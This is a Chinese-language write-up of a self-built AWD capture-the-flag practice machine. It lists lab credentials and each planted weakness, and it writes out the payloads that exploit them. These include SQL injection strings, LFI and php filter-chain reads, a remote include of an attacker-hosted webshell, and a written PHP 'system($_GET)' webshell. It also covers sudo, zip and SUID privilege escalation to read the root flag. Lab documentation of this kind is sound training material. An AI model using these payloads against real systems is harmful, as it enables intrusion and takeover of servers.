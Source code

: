 # AWD 模式攻击

## 凭证信息 (Credentials)

###### PS: (密码不是加密后的 hash ，用 hash 做的密码)
-   **MySQL Root 用户:**
    ```
    T1: root:$1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    T2: root:$1$xDRC88E9$NuBtIeH1q2Xndltvfk0Wu0
    ```
-   **Linux Root 用户:**
    ```
    T1: root:$1$DcI4hlB5$7Fzb9WR6XrBFwjHgBcpA61
    T2: root:$1$zu5fqmiV$hRUIt5Hp0LQwlBSDC5XuA0
    ```
-   **Linux welcome 用户:**
    ```
    T1: welcome:welcome
    T2: welcome:welcome
    ```
-   **WEB admin 用户:**
    ```
    T1: admin:babygirl94andrew10
    T2: admin:jeanjeandianacarolina
    ```
## FTP 服务

-   允许匿名登录。
-   可以访问服务器根目录 (`/`)。
-   允许上传文件。

## Web 目录权限 (`/var/www/html/`)

-   权限设置为 `777` (可读、可写、可执行)。
-   **利用方式:** 结合 FTP 匿名上传权限，可以直接上传 PHP Webshell (例如 `shell.php`) 到 Web 根目录，实现远程代码执行 (RCE)。

## Web robots.txt 文件
-   **提示信息:** 在 `robots.txt` 文件中可以找到以下内容：
    ```
    User-agent: *
    Disallow: /xxxxx
    ```
    之后你可以看到
    ```
    噢，防止我忘记密码，我把密码放在这里一份

    pw: xxxxxxxx
    ```
    xxxxxxxx 将是 admin 用户的密码

## Web PHP 代码漏洞
-   login.php: SQL 注入漏洞
```
POST /login.php
username=admin' -- -&password=anything
```

-   dashboard.php: 文件上传漏洞
```
POST /dashboard.php HTTP/1.1
这里是没有检查文件类型，并且可以执行上传的 php 代码。 
```

-   game.php: LFI 漏洞
```
/games.php?game=../../etc/passwd 
/games.php?game=php://filter/convert.base64-encode/resource=config.php
结合 php://filter-chains 技术可实现 RCE /games.php?game=(php://filter-chains链)
推荐项目: 
https://github.com/synacktiv/php_filter_chain_generator.git
https://github.com/DingTom23/php-reverse-chains.git
```

-   ball.php: RCE 漏洞
```
/ball.php?debug=1&cmd=id
```

-   memory.php: Remote LFI 漏洞
```
/memory.php?theme=http://youraddress/webshell.php
```

-   puzzle.php: SQL 注入漏洞
```
/puzzle.php?check_username=admin' OR '1'='1
/puzzle.php?check_username=admin' UNION SELECT 1,2,3,4,5,6 FROM information_schema.tables WHERE '1'='1
```

-   snake.php: 文件读写漏洞
```
读取文件: /snake.php?admin=super&file=/etc/passwd
写入文件: 
POST /snake.php?admin=super
Content-Type: application/x-www-form-urlencoded

filename=shell.php&content=<?php system($_GET['cmd']); ?>
```

-   typing.php: PHP伪协议漏洞
```
/typing.php?load_wordlist=php://filter/convert.base64-encode/resource=config.php
```

## `welcome` 用户密码复用

-   `welcome` 用户的 Linux 登录密码与其用户名相同，均为 `welcome`。
-   **提示信息:** 在 `/home/welcome/note.txt` 文件中可以找到以下内容：
    ```
    From root@localhost:

        朋友，你的密码太弱了，一旦知道你的用户名，不久知道密码了吗？

                        To welcome@localhost
    ```
    这暗示了 `welcome` 用户名和密码相同。

## /home/welcome/.bash_history 文件
-   `welcome` 用户的 Bash 历史记录文件 (`/home/welcome/.bash_history`) 中包含了一些敏感信息。
-   **提示信息:** 在 `/home/welcome/.bash_history` 文件中可以找到以下内容：
    ```
    su -
    $1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    ```
    
## Sudo 滥用
-   www-data 用户:
```bash
root@dmsy-awd:~# sudo -u www-data sudo -l
Matching Defaults entries for www-data on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dmsy-awd:
    (welcome) NOPASSWD: /usr/bin/vi
```
    可以 !bash 提权

-   welcome 用户:
```bash
root@dmsy-awd:~# sudo -u welcome sudo -l
[sudo] password for welcome: 
Matching Defaults entries for welcome on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on dmsy-awd:
    (ALL) PASSWD: /home/*/backup.sh, /bin/zip
```
#### 提权路径
```bash
welcome@dmsy-awd:~$ mv backup.sh backup.sh.bak
welcome@dmsy-awd:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > backup.sh
welcome@dmsy-awd:~$ chmod +x backup.sh
welcome@dmsy-awd:~$ ls -la /tmp/bash 
-rwsr-sr-x 1 root root 1168776 Apr 23 10:43 /tmp/bash
welcome@dmsy-awd:~$ /tmp/bash -p
bash-5.0# id
uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)

welcome@dmsy-awd:~$ TF=$(mktemp -u)
welcome@dmsy-awd:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## SUID 提权
-   查找 SUID 可执行文件:

```bash
welcome@dmsy-awd:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/date
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/base64
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```
-  发现 data 和 base64 有 SUID 权限 

```bash
welcome@dmsy-awd:~$ LFILE=/root/root.txt
welcome@dmsy-awd:~$ date -f $LFILE
date: invalid date ‘flag{1998cbf9-1f88-11f0-a369-000c29094b2d}’

welcome@dmsy-awd:~$ base64 "$LFILE" | base64 -d
flag{1998cbf9-1f88-11f0-a369-000c29094b2d}
```

#### 后记
我靠，累死了，markdown 手写的，服务全部手搓。
幸好有伟大的 claude 给我写 php 代码，要不然我就死在这了。
要不然真的累死在这了。